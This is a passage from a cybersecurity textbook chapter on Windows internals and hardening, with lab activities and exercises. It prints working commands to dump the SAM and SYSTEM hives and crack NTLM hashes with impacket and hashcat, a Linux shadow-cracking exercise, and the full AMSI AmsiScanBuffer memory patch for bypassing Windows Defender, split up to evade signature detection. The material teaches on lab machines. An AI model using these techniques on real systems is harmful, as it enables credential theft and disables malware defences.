> ![[../images/05/win_activity_crypt32_adv.png|Crypt32 Advanced NTFS Permissions]]
> Selecting the Users principal and then the View button displays the basic NTFS permissions but also offers the advanced permissions link in the upper right corner.  Selecting it reveals the advanced permission settings of the file which could offer more granular control over the file.
> ![[../images/05/win_activity_crypt32_adv_perms.png|Crypt32 Advanced Permissions for Users|600]]
### User System
A Windows operating system supports accounts that can be used to limit permissions to files.  There are a few types of accounts worth exploring as they can influence the security of a system.  A *user*, or *local* account, is associated with a human and has an interactive logon.  This means that the user has a username and password used to access the system and files.  Similar to Linux, there are non-human accounts meant for the use of systems or applications and are often referred to as *service accounts* or *service principals*.  In either case, the account is created on the system and can only be used on that system.

Microsoft supports *online accounts*, which are accounts created and maintained within Microsoft's cloud solutions.  An online account can be tied to the local system and used for interactive logons between systems.  This allows users to store data, such as license keys, outside the machine and brings cross system functionality.  The tradeoff is that Microsoft ultimately controls and stores this data.  This data could be reached by anyone with access to the account's credentials regardless of the systems on which it is used.  Many phishing campaigns target Microsoft online accounts because the login page is easy to spoof, and the credentials can be used from anywhere in the world.

Windows also supports two local groups, versus Linux's dynamic groups, to organize accounts and their permission sets.  The *user* group is the default group to which all accounts belong, whereas the *local administrator* group has elevated permissions allowing full access to the operating system.  For example, a local administrator can install software within the Program Files folder or to create new user accounts, whereas accounts in the user group cannot.

>[!note] Note - Active Directory
>Beyond the scope of this book, but of high security interest, are *domain controllers* that include *Active Directory*, which is a Microsoft software product used to manage accounts and groups within enterprises.  Administrators of this system, called *domain administrators*, create users and groups and can assign them to objects such as computers in containers known as *organization units (OU)*.  This effectively enables administrators to control access dynamically and at scale across many devices.  Another feature of domain controllers is the ability to create *group policy objects (GPO)* which can be assigned to OUs and facilitate security settings while leveraging the same scalability with Active Directory.  Attacking and defending Windows domain environments could fill an entire textbook on its own.
### Password System
Microsoft uses hashes to convert and authenticate Windows operating system passwords.  In the 1980's, they developed the LAN Manager authentication protocol and its very insecure hash algorithm of the same name, **LM**.  It was based on the now deprecated **Data Encryption Standard (DES)** algorithm which produces only 64-bit digests.  LM curtails the passwords to a maximum of 14 characters, converts them to uppercase, encodes and pads the value, then splits the output into two 7-byte strings.  These strings are used to create DES values encrypted with a key that was published online by Microsoft.  This algorithm erodes most of the security of having a long and high entropy (random) password and is easily cracked.  I would instruct the reader to ensure any of the systems they are responsible for maintaining the security of to avoid LM use.  You should also note that Microsoft has done a thorough job of making modern systems backwards compatible with this algorithm allowing its prolonged and insecure use.

Learning from the lessons of LM, Microsoft developed **New Technology LAN Manager (NTLM)** and later improved and published a second version, *NTLMv2*, which provides stronger cryptographic assurances.  The NTLM value is based on MD4 and used in the deprecated, yet backwards compatible, NTLM authentication process.  Similar to LM, NTLM and NTLMv2 are hash-based challenge and response protocols that contain passwords used by Windows systems to authenticate users within and between Windows systems.  The use of hashes between Windows systems on a networked domain will be explored in a following paragraph, but let us first describe the Kerberos system.

The **Kerberos** system, developed by MIT, uses symmetric cryptography and a centralized server to distribute keys known as the *key distribution center (KDC)*.  The KDC supports three functions to authenticate users.  Principals request a *Ticket Granting Ticket (TGT)* from the *Authentication Server (AS)* using a key derived from their password.  The TGT is the used to request services from the *Ticket Granting Server (TGS)* which are presented to the *service server (SS)*.  The SS then validates this ticket with the KDC and grants access, or use, to the principal.

>[!note] Note - Kerberos System
>There are several well-known attacks against Kerberos which are beyond the scope of this textbook.  Among many other attacks, interested readers may want to look up *pass the ticket*, *silver ticket*, and *golden ticket* attacks.

LM, NTLM, and Kerberos all provide the ability for networked Windows systems to share authentication systems and centralize access management on a Windows domain.  But the hashed passwords for these systems must still reside somewhere in the operating system.  The **security accounts manager (SAM)** is a database file that contains the username and hashed passwords for system users.  It is encrypted and access is limited to the SYSTEM user only.  The *local security authority subsystem service (LSASS)* is an executable, owned by the SYSTEM user, that facilitates the security policy of the system by handling passwords and sessions.  The LSASS executable can be found in the `/Windows/System32` folder while the database itself is included in the Windows registry under the `HKLM\SAM` hive.

> [!activity] Activity 5.8 - Cracking SAM
> The SAM database is somewhat analogous to Linux's shadow file.  It ultimately contains the NTLM hash values for all users on the system and requires elevated permissions to access it.  Dumping the values from SAM only provides the NTLM hashes which require brute force or dictionary cracking to identify the plaintext value.  For this demonstration, I will create a test user, extract the SAM database, use the `impacket`tool to extract the hash values, and then crack the hashes using `hashcat`.
> 
> Starting with the Windows VM, I launch a command prompt as an administrator and accept the UAC prompt.
> ![[../images/05/win_activity_sam_cmd.png|Starting Command Prompt as Admin|500]]
> With the command prompt started, I create a user named tester and the weak password `Password123` using the `net` utility.  Even though this password is 10 characters long and includes a mix of alpha-numeric characters as well as an upper and lowercase letters, it uses a common dictionary word and pattern that can be guessed. 
> ```cmd
> net user /add tester Password123
> ```
> ![[../images/05/win_activity_sam_create_user.png|Create Local User Tester|600]]
> I then sign out as my existing user and login as the tester user.  This action ensures the NTLM hash is registered within SAM.  While logged in as the tester user, I launch another command prompt as administrator, which requires me to enter my local administrator username and password.  Within this new admin command prompt, I dump the SAM and SYSTEM registries to the C drive using the `reg` command.
> ```cmd
> reg save hklm\sam c:\sam
> reg save hklm\system c:\system
> ```
> ![[../images/05/win_activity_sam_dump.png|Dumping SAM and SYSTEM to C Drive|600]]
> Because I have bi-directional drag and drop setup between my host and the Windows VM, I copy the `sam` and `system` files from the Windows VM to my host computer.
> ![[../images/05/win_activity_sam_copy.png|Copy SAM/SYSTEM Files to Host|450]]
> Next, I start the Kali VM and drag and drop the `sam` and `system` files from my host computer to the Kali VM desktop.  There are many ways in which an attacker can exfiltrate data.  I could have accomplished the file transfer by creating an SMB or FTP service, uploaded the file to a cloud service, encoded the files and copy and pasted them over, or one of several other ways.
> ![[../images/05/win_activity_sam_kali_drop.png|Copy SAM/SYSTEM Onto Kali Desktop|350]]With the `sam` and `system` files in the Kali system, I extract the NTLM hashed passwords using the `impacket` secret dump command.  I open a terminal from the desktop where the files are stored and point the `-sam` and `-system` options of `impacket-secretsdump` to the files.  I also specify that this is a capture on the local system but `impacket` can also be used remotely.
> ```bash
> impacket-secretsdump -sam sam -system system LOCAL
> ```
> ![[../images/05/win_activity_sam_impacket.png|Impacket Secrets Dump Output|675]]
> The dump is successful and outputs a list of principals, their user id, LM, and NTLM hashes (in that order).  I see our target `tester` user is the last entry with the user id of 1001 and the NTLM hash value `58a478135a93ac3bf058a5ea0e8fdb71`.  I copy this value and paste it into a `hash.txt` file that will be used as an input for the `hashcat` tool.
> ```bash
> echo "58a478135a93ac3bf058a5ea0e8fdb71" > hash.txt
> ```
> ![[../images/05/win_activity_sam_hash.png|Creating Hash File|600]]
> The last step is an attempt to crack the hashed password using `hashcat` and the `rockyou.txt` dictionary password list.  You may recall we used `rockyou.txt` in an activity earlier in this chapter.  `Hashcat` comes with several modes that configure the hash algorithm to use.  Mode 1000 is specific to NTLM hashes.  A full list of available modes can be found in the manual pages or online.
> ```bash
> hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
> ```
> ![[../images/05/win_activity_sam_hashcat_start.png|Starting Hashcat to Crack NTLM Hash|600]]
> `Hashcat` starts but will take a few moments to crack the password.  Once completed, the tool displays the cracked password!
> ![[../images/05/win_activity_sam_cracked.png|Cracked NTLM Hash with Hashcat|500]]

### Processes
Like Linux, when an executable is run in Windows a user process is created and assigned a PID.  These PIDs can be nested into a tree-like structure and can be analyzed through the GUI or command line.

> [!activity] Activity 5.9 - Windows Processes
> In the Windows VM, I view all running processes by starting the task manager application in the search bar.
> ![[../images/05/win_activity_processes_task_launch.png|Launching Windows Task Manager|400]]
> Once the `Task Manager` is launched, I press the More Details button in the lower left corner of the window to display all the running processes.  The manager lists each process and their resource consumption, similar to the `top` command in Linux.
> ![[../images/05/win_activity_processes_list.png|Task Manager List|550]]
> I select the first process, `Task Manager`, right-click and select the Properties option in the context menu which launches the information window for the process.
> ![[../images/05/win_activity_processes_properties.png|Taskmgr Properties Window|350]]
> The properties window shows the executable's location associated with the process alongside other general information.  Similar information about processes can be reviewed from the command prompt using the `tasklist` command.  I open a command prompt and run the `tasklist` program to list the running processes.
> ```cmd
> tasklist
> ```
> ![[../images/05/win_activity_processes_tasklist.png|Process List Using Tasklist|600]]
### Services
Windows maintains services much like Linux services and daemons.  These services running under a user or system context can be viewed, started, and stopped through the built-in `Services` application or via the command line using the `sc` command.

>[!activity] Activity 5.10 - Windows Services
>Continuing the use of the Windows VM, I search for the `Services` application in the search bar.
>![[../images/05/win_activity_service_app.png|Launching Windows Services App|400]]
>The `Services` app lists all services configured on the system alongside characteristics like the service's status and how the service is started.  I have selected the first running service which displays the service's description on the left pane.  I can control the service here by starting or stopping it using the provided links in the left pane. 
>![[../images/05/win_activity_service_list.png|Windows Service List]]
>Similar to the `Task Manager` app, if I right-click the service and select the Properties option in the context menu, the Properties window will be launched.  This window includes details about the program that is running, such as the path to the executable and any command options or flags.
>![[../images/05/win_activity_service_properties.png|Service Properties|400]]
>This same information, along with the administrative capabilities, can be reviewed using the command line and the `sc` program.  I start a command line window and use the `query` option to list all the services on the system.
>```cmd
>sc query
>```
>![[../images/05/win_activity_service_query.png|Querying Services Via Command Prompt|600]]
>A thorough list of services and their states are displayed.  Just like the `Services` GUI app, the Appinfo service is the first running service to be displayed.  I can get more information about the service using the `sc` command with the `qc` option specifying the service name.
>```cmd
>sc qc Appinfo
>```
>![[../images/05/win_activity_service_info.png|Appinfo Detail Using SC|600]]
>The command provides additional information that we previously found in the properties window of the Service app.  This information includes the executable path under the key `BINARY_PATH_NAME`.  The service can be stopped, started, or modified using the `sc` command, as we will see in the next chapter.

### Task Scheduler
Remember the coverage of cron in the Linux section of this chapter?  Windows has a similar service called `Task Scheduler` which is used to schedule executables to be run on a provided schedule or upon an event such as a reboot.  Similar to services and processes, the Task Scheduler can be used through the GUI and the CLI.

> [!activity] Activity 5.11 - Windows Task Scheduler
> The `Task Scheduler` can be launched using the Windows search bar.  Once launched and the Task Scheduler Library is selected on the left navigation pane tree, a list of tasks is displayed in the main pane.  The first job on the list is automatically selected and its details appear in the bottom pane.  The Triggers tab offers a range of schedules and events that will cause the task to launch.  Creating new tasks is as easy as pressing the Create Task button on the right pane and following the wizard.
> ![[../images/05/win_activity_task_scheduler.png|Windows Task Scheduler]]
### Logging
Windows logs events for applications, system, and security contexts are accessible using the `Event Viewer` built-in application.  These logs are essential when troubleshooting system issues and for security monitoring.  Each entry in the logs includes event descriptions, timestamps, and the associated accounts.  For Windows systems, event types have been cataloged and indexed using standardized numbers.  These numbers can be used as reference points when searching for specific log types.  `Event Viewer` empowers administrators to create searches and filters related to the logs they are interested in analyzing.

> [!activity] Activity 5.12 - Windows Event Viewer
> From the search bar, I search and launch the `Event Viewer` application.  It has a similar layout to the `Task Scheduler` with a navigation tree in the left pane, event list on the top pane, details pane on the bottom, and a management pane on the right.  Selecting Security logs under the Windows Logs folder on the left navigation tree displays thousands of events.  I select the second event with Event ID 4624 which is the security event for a user log on.  The details of the event are displayed in the bottom pane.  Although cut off in the image below, the General tab displays the log on user SYSTEM under the Subject section of the raw details.
> ![[../images/05/win_activity_log_event_viewer.png|Windows Event Viewer]]
> We can also search and display events using PowerShell, but the `Event Viewer` application is convenient to use when working with Windows logs.  Security professionals may export these logs into a centralized system for indexing and searching at scale, which we will explore in a later chapter.
### Registry
While Linux has the `etc` folder to store system and application configurations, Windows uses the Registry.  This system is a hierarchical database that stores information necessary to configure the system and applications.  Prior to Windows 98, the operating system relied on INI files to store information.  These files were centralized into the Registry for ease of administration, among other reasons.  The `Registry` itself is stored in the following DAT files called *hives*:

- HKEY_LOCAL_MACHINE (alias Software)
- HKEY_CURRENT_CONFIG (alias System)
- HKEY_USERS
- HKEY_CURRENT_USER
- HKEY_CLASSES_ROOT

Hives contain folders and entries as key value pairs using various data types.  You might recall that I exported the System hive using the `reg` utility in a previous activity where I cracked an NTLM hashed password.  The Registry can also be accessed using the like-named `Registry Editor` application.

> [!activity] Activity 5.13 - Windows Registry
> I start the Registry by searching `Registry Editor` in the search bar and launching it as the administrator.  The pane on the left is a directory tree and the pane on the right will display the contents of the item chosen from the tree.  I navigate to the `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run` section which displays all the applications that are set to run when a user logs in.
> ![[win_activity_registry.png]]
> I can see that Edge and OneDrive are set to launch at log on.  From this application I can add, remove, or modify any program that runs at startup.

Malware can abuse the Registry by hiding data within it to obfuscate activity.  The Registry can even be used as a persistence mechanism that we will explore further in the next chapter.
### Hardening
Windows hardening follows the same concepts we explored in the Linux hardening section of this chapter.  Just like with Linux systems, Windows administrators should seek to limit the applications and services installed on a device alongside restricting access where prudent.  Expanding on the list covered in the Linux hardening section, administrators should also maintain the host-based firewall to prevent unneeded network activity on the system.  You might recall that we enabled some Windows firewall rules and even disabled the firewall in previous activities.  Good hardening practices ensure that the host-based firewall is running and well configured.  Windows also has a local security policy framework that defines security settings for the system.  Within Windows domain networks, GPOs are used to administer security settings across multiple devices.  Both local and global security policy configurations are auditable by hardening scanning tools like `inspec`.  A couple of critical hardening practices for Windows are to ensure that they remain up to date with security patches and have anti-malware solutions installed.
#### Windows Patching
The Windows operating system is so large, dynamic, and built using legacy code that new security vulnerabilities are constantly being identified.  These vulnerabilities range in severity and Microsoft works diligently to mitigate them using software patches.  These patches become available the second Tuesday of every month on what has become known as *Patch Tuesday*.  The patches include performance, feature, and security fixes with the security patches needing to be applied promptly.  

> [!warning] Warning - Diffing Patches
> As soon as a patch becomes available, an arms race between system administrators and malware authors starts.  System administrators must patch their systems quickly to avoid becoming victim of malware that abuses the security vulnerability of an unpatched system.  Malware authors monitor these patch releases and will compare unpatched system files to patched system files to identify the change.  The changes are analyzed to identify the vulnerability, and then new malware is developed to exploit the vulnerability.  The time from patch release to malware use abusing the vulnerability has been as fast as 1 or 2 days!

Microsoft releases patches as *knowledge base (KB)* notices and delivers them through their Windows Update distribution channel.  These channels are automatically monitored by Windows versions inside of a support timeframe.  At the time of this writing, Windows 7 is no longer supported and thus does not receive regular security updates.  Enterprises often use patch management solutions, such as the *Windows Server Update Services (WSUS)* servers, to administer patches in a controlled manner.  

>[!tip] Tip - End of Life/Support Management
>At some point, software maintainers decide to no longer support older versions of their systems or applications.  This is known as **end of life (EOL)** or **end of support (EOS)** and must be carefully monitored by systems administrators, developers, and security professionals.  This vital activity is important as any new vulnerabilities discovered on EOL or EOS software will not be fixed by the maintainer and anyone running that software may be exposed to the vulnerability without direct remedial actions to take.  When a system is identified to be EOL/EOS, an upgrade plan should be developed and implemented to avoid undue security risks.
#### Anti-Malware
Another hardening activity that is prevalent with Windows operating systems is the use of anti-malware, or *anti-virus*, solutions.  In fact, Windows comes with a free solution called **Windows Defender** which has grown into a standalone threat monitoring solution.  In the past, Defender did not have good creditability and often missed obvious malware.  Recent improvements to this service have been substantial and is now a reasonable solution for malware mitigation.  Approaches to malware mitigation have grown over time with the first iteration using hash values of malicious binaries and scanning systems searching for these files.  

>[!tip] Tip - Linux Anti-Virus
>Most organizations use Microsoft Windows on their workstations.  This popularity makes Windows a desirable target for attackers.  Therefore, malicious actors disproportionally focus their vulnerability discovery and exploit development on Windows systems.  Which is why most malicious software is developed to be run on Windows systems versus Linux or MacOS.  Because the majority of malware is designed for Windows, many administrators might argue that anti-virus on Linux isn't worth the additional overhead.

However, the ability to bypass these early anti-malware solutions required only a slight alteration of the malware creating a new strain.  Solutions then evolved to detect specific patterns within the malware themselves, such as identifying the use of Windows API functions and the byte order and position within an executable.  These *signature-based* solutions are used today within *intrusion detection systems (IDS)* that we will experiment with in a later chapter.  *Behavioral based* anti-malware solutions monitor the activities of all running processes on the system looking for suspicious activities, like writing files to the system or attempting to interact with LSASS.  All these solutions support monitoring and blocking malware.  Some go as far as to remove the malware from a device when it is detected.  The following image was taken from VirusTotal when searching the SHA1 hash of the infamous Mimikatz password dumping tool. [^1]  It shows that 61 of 72 antivirus vendors recognize the hash of the file as malware.

![[../images/05/virustotal.png|VirusTotal Mimikatz Detections]]

Most anti-malware and *endpoint detection and response (EDR)* solutions hook into the memory space of every process that is started on the device.  This allows the solution to monitor process activities and report back to the solution for handling.  If the hook reports malicious patterns, the solution kills the running process ending the malware before it has had a chance to cause impact.  However, when a user launches an application, the executable code is put into the *userland* memory space along with the anti-malware hook.  The userland memory space is in the complete control of the user that started the process - allowing them, or the malware, to read and write to that memory space.  With this background, malware can unhook the anti-malware solution from the memory space it is running in which bypasses the security control.  Instead of unhooking, the malware can also return true negative result back to the solution regardless of the process memory space's behavior.

> [!activity] Activity 5.14 - Bypassing Defender
> I will demonstrate how to bypass Windows Defender using the Windows VM in a PowerShell session.  After starting the machine, I search for Virus & Threat Protection to launch the Defender settings.  Scrolling down the Windows Security window I can see that Defender is enabled and running.
> ![[../images/05/win_activity_av_defender_running.png|Defender Up and Running|300]]
> To demonstrate a bypass, I need to execute commands in a running process.  I launch a PowerShell session from the search bar not as administrator.  Defender hooks into this newly created process and will monitor the memory space for malicious behavior.  I know that the `Invoke-Mimikatz` will trigger Defender to kill the command as this function is associated with a common hacking technique to extract NTML hashes from a Windows system.  To test that Defender is working, I include this command and observe Defender taking action.
> ```cmd
> powershell
> Invoke-Mimikatz
> ```
> ![[../images/05/win_activity_bypass_test3.png|Testing Defender|600]]
> I can see that Defender detected the string and blocked the command.  Next, I run several commands designed to replace the malicious detection result in the running process with a passing result no matter the behavior.  These bypass commands are found on S3cur3Th1sSh1t's GitHub repository Amsi-Bypass-Powershell: https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell#patching-amsi-amsiscanbuffer-by-rasta-mouse. [^2] 
> 
> There are several bypasses I can use, however, some of them no longer work.  I will use the Patching AMSI AmsiScanBuffer by rasta-mouse as it continues to be effective at the time of this writing.  If I copy and paste the entire script and attempt to run it in the PowerShell process, Defender will detect it and block the activity.  Therefore, I copy and paste each command one at a time to elude detection.  The first block loads the Windows API kernel library functions needed to manipulate memory space into a variable that I use in the following commands.
> ```powershell
> $Win32 = @"
> 
> using System;
> using System.Runtime.InteropServices;
> 
> public class Win32 {
> 
>     [DllImport("kernel32")]
>     public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
> 
>     [DllImport("kernel32")]
>     public static extern IntPtr LoadLibrary(string name);
> 
>     [DllImport("kernel32")]
>     public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
> 
> }
> "@
> 
> Add-Type $Win32
> ```
>![[../images/05/win_activity_bypass_functions.png|Importing Kernel Memory Functions|600]]
>In the next command, I load the `amsi.dll` library into another variable to use later.  Notice in the command that "amsi" is broken up into two segments that are concatenated, or placed together.  This is to avoid the raw completed string from being detected and blocked by Defender. 
>```powershell
>$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
>```
>To patch the AmsiScanBuffer process, I need to know where it is located in memory.  The GetProcAddress kernel function loaded earlier can assist by returning the address of the given function.  However, as we demonstrated earlier, using the raw string will cause Defender to block the command.  Therefore, again we use the concatenate method to evade signature detection.
>```powershell
>$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
>```
>I set a variable to zero, which will be used in the next command to allow writing to the AmsiScanBuffer process.
>```powershell
>$p = 0
>```
>Next, I set the memory space of AmsiScanBuffer to be writable.  The command returns true indicating successful memory change.
>```powershell
>[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
>```
>In the next command, I set a variable to hold the patch in hexadecimal that will overwrite AmsiScanBuffer to return true negatives.
>```powershell
>$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
>```
>Finally, the last command will write the patch to the AmsiScanBuffer process.  All the preceding commands can be found in the following screenshot.
>```powershell
>[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
>```
>![[../images/05/win_activity_bypass_commands.png|Patching AmsiScanBuffer Process|600]]
>Amsi should now be unhooked and defanged within my PowerShell process.  To test its success, I rerun the echo command that was originally blocked.
>```powershell
>Invoke-Mimikatz
>```
>![[../images/05/win_activity_bypass_tested2.png|Testing Bypassed Defender|600]]
>Defender did not block the use of `Invoke-Mimikatz` this time!  It does error, but if you look closely, it only errors due to the command not being found (versus because antivirus blocks it).  This means anything else running within this PowerShell process will not be blocked by Defender.

## Exercises
>[!exercise] Exercise 5.1 - Shadow Cracking
>Crack Linux passwords using `john` in your Kali VM with Bridge Adapter network mode.  You will create a user and set their password.  Then you will prepare the hash file and use `john` to crack the hash with the `rockyou.txt` wordlist.
>#### Step 1 - Create User
>Create a user `tester` using the following command.
>```bash
>sudo useradd -m tester
>```
>Set the `tester` user password to `Password123` with the following command.
>```bash
>sudo passwd tester
>```
>#### Step 2 - Prepare Password List
>Unzip `rockyou.txt.gz` with the following command.
>```bash
>sudo gunzip /usr/share/wordlists/rockyou.txt.gz
>```
>#### Step 3 - Crack the Password
>With the `tester` user created and the `rockyou.txt` file unzipped, collect the `tester` user’s password into a hash file.
>```bash
>sudo unshadow /etc/passwd /etc/shadow | grep tester > /tmp/hash.txt
>```
>Crack the user password using `john` which could take up to 5 minutes depending on your VM resources.
>```bash
>john --format=crypt --wordlist=/usr/share/wordlists/rockyou.txt /tmp/hash.txt
>```

> [!exercise] Exercise 5.2 - Linux Baseline Hardening
> Using `inspec`, run a Linux baseline scan on the Ubuntu VM in Bridge Adapter network mode.  Pick a failed rule, research how to fix it, fix it, and re-run the `inspec` scan to confirm that the issue you selected has been resolved.
> #### Step 1 - Install Inspec
> Download the `inspec` package.
> ```bash
> wget https://packages.chef.io/files/stable/inspec/4.18.114/ubuntu/20.04/inspec_4.18.114-1_amd64.deb
> ```
> Install `inspec` using `dpkg`.
> ```bash
> sudo dpkg -i inspec_4.18.114-1_amd64.deb
> ```
> Confirm successful installation by displaying `inspec` help menu.
> ```bash
> inspec --help
> ```
> #### Step 2 - Run Inspec
> Run the `inspec` tool to detect baseline configuration issues.
> ```bash
> inspec exec [https://github.com/dev-sec/linux-baseline](https://github.com/dev-sec/linux-baseline) --chef-license accept
> ```
> #### Step 3 - Research an Issue
> Using the output of the previous scan, perform the following actions: 
> 1. Select a failed rule.
> 2. Research the rule and how to fix the issue.
> 3. Describe how this issue impacts security.
> #### Step 4 - Fix the Issue
> With an issue researched, perform the following actions: 
> 1. Fix the issue on the Ubuntu VM.
> 2. Rerun `inspec` linux-baseline scan to confirm that the issue has been resolved.

> [!exercise] Exercise 5.3 - Cracking SAM
>This task requires the use of the Windows VM, as well as the Kali VM, both in Bridge Adapter network mode.  You will create a test user on the Windows VM, exfiltrate the SAM and SYSTEM files onto your Kali VM, and crack the NTLM hash of the user you created.
>#### Step 1 - Create a User
>On the Windows VM, open a command prompt as Administrator and create a user with the password “Password123”.
>```cmd
>net user /add tester Password123
>```
>#### Step 2 - Exfiltrate SAM
>From within the Windows VM command prompt running as Administrator, pull the SAM and SYSTEM databases from the registry.
>```cmd
>reg save hklm\sam c:\sam 
>reg save hklm\system c:\system
>```
>The files were saved to the C drive’s root directory.  Drag and drop them to your host computer.  Once on your host computer, drag and drop (again) the SYSTEM and SAM files to the Kali VM.
>#### Step 3 - Dump and Crack Secrets
>From the Kali VM, with the SAM and SYSTEM files downloaded, dump the NTLM hashes using `impacket`.  Note that the name of the SAM and SYSTEM files are case sensitive.
>```bash
>impacket-secretsdump -sam sam -system system LOCAL
>```
>Copy the NTLM hash for the `tester` user into a `hash.txt` file.  Remember to replace `HASH` with the hash value of the `tester` user.
>```bash
>echo “HASH” > /tmp/hash.txt
>```
>Crack the password using `hashcat` and `rockyou.txt`.
>```bash
>hashcat -m 1000 /tmp/hash.txt /usr/share/wordlists/rockyou.txt
>```


> [!exercise] Exercise 5.4 - Bypassing Defender
> Using your Windows VM in Bridge Adapter network mode, you will demonstrate an AMSI patch bypass.
> #### Step 1 - Test AMSI
> From the Windows VM, start a `cmd` terminal, launch a `powershell` process, and prove that Windows Defender is active by running the following command.  The result of the command should result in an antivirus block.
> ```powershell
> powershell
> Invoke-Mimikatz
> ```
> #### Step 2 - Bypass Defender
> Navigate to Rasta Mouse’s AMSI patch within GitHub.  Copy each line/block into your PowerShell terminal one at a time hitting enter in between a few times.  You can find Rasta’s patch code in the following link. 
> https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell#patching-amsi-amsiscanbuffer-by-rasta-mouse 
> Once all lines/blocks are copied, retest to confirm that the PowerShell process is no longer hooked into Windows Defender.
> ```powershell
> Invoke-Mimikatz
> ```
> >[!tip] Tip - Troubleshooting Bypass
> >Start a fresh powershell terminal.  Also, use your imagination on what else you could do to break up the commands yet still bypass AMSI.
> #### Step 3 - Test Other Bypasses
> Pick another bypass method from the following link and test in a new PowerShell instance.  Can you find another method that works? 
> https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell


[^1]: VirusTotal - File; February 2024; https://www.virustotal.com/gui/file/31eb1de7e840a342fd468e558e5ab627bcb4c542a8fe01aec4d5ba01d539a0fc
[^2]: Amsi-Bypass-Powershell; GitHub S3cur3Th1sSh1t; February 2024; https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell#patching-amsi-amsiscanbuffer-by-rasta-mouse